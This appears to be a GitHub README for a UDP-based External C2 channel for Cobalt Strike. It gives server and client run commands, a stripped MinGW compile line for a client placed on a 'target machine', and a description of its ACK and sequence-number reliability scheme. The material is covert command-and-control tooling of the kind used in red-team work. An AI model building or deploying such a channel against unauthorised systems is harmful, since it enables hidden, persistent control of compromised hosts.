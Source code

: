 # COBALT STRIKE ROBUST UDP CHANNEL

This project provides a UDP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any UDP-based protocol.

This channel guarantees in-order delivery. It does this through sequence numbers and generic ACK packets. Full description is below the guide.

This channel also assumes the network uses IPv4. TCP allows for protocol-agnostic sockets, but UDP does not. Changing the socket to IPv6 currently requires editing the code.

To use the Robust UDP channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

To start the server, run the following command:

> python3 server.py [Teamserver IP] [Python Server IP] [Port] [Pipename] [Timeout] [Retries] [OPTIONAL:-tp TeamserverPort -r Restart]

- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server communicates with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any valid pipename.
- [Timeout] is the number of seconds to set the socket timeout to.
- [Retries] is the number of times to retry listening for a connection after a timeout occurs.
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.  
- [Restart] is a Y/N value to either restart the server after disconnect or exit. Default is N.

If you have the MinGW compiler installed, you may compile the client.c code with the following command:

> i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe [Python Server IP] [Port] [Pipename] [Sleep] [Timeout] [Retries]

- [Name] is the name of your client executable.
- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server.
- [Timeout] is the number of seconds to set the socket timeout to.
- [Retries] is the number of times to retry listening for a connection after a timeout occurs.

## GUARANTEED DELIVERY DESCRIPTION

This channel uses generic ACK packets and packet sequence numbers to provide reliable data transmission over UDP.

Every packet (except for ACKs) starts with a 4-byte sequence number. In the current implementation, this number starts at 0 and increments by 1 for every successful receipt. The recipient of a packet first checks the sequence number. If it’s equal to the expected sequence number, the recipient sends a generic ACK, takes in the data, and increments the expected sequence number by 1. If the sequence number received is less than the expected sequence number, the recipient sends an ACK but doesn’t do anything else. If the sequence number received is greater than the expected sequence number, the recipient does nothing. (This is undefined behavior; the program should never reach this point.) The ACK message just consists of the word “ACK”. It does not contain an acknowledgement number.

When transmitting data, the sender sends packets one at a time. After every transmission, the sender waits until a specified timeout for an ACK packet. If no ACK is received, the sender retransmits the packet. Once the sender receives an ACK packet, they will increment their sequence number by 1 and transmit any more data if necessary.

The packet max size is defined in the code. It is currently 1024 bytes. Senders repeatedly transmit packets of that size or less until all of their data is sent. (Note: this max size does not include the sequence number, so the actual packet sent will have a payload of 1028 bytes.)

The timeout is defined by the operator. It is recommended that the client timeout be twice as long as the server timeout due to the server forwarding data to the teamserver and back.

## CONSTRAINTS

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- If the server goes down, due to trying to maintain reliability through packet drop, the client will continue sending packet retransmissions to the dead IP address until the retries counter is hit.
- The sequence numbers do not roll over, so 2^32 packets is the maximum that can be sent by either the client or the server.

## TODOS/IMPROVEMENTS

- UDP does not allow for protocol-agnostic sockets. A choice between IPv4 and IPv6 should be added as an argument passed to both programs.
- A more efficient solution than "ack every packet" should be developed. One idea I had was to have the recipient ACK a size packet, then allocate an array to keep track of the packets received for that payload. The recipient only sends an ACK once they receive all the data, and the sender retransmits everything if they don't receive an ACK.
- Allow the user to control the packet size via commmand line arguments.
- Start the sequence number on a randomly generated value. (Both the client and the server are configured to handle receiving an arbitrary sequence number, but they don't send randomized ones as of yet.)
- Roll over the sequence number once it reaches its max.
- Packets from the server to the client calculate the checksum incorrectly according to Wireshark. Possibly UDP Checksum Offloading.
- When capturing the entire connection, Wireshark identifies the traffic as QUIC protocol. Unknown why this is.
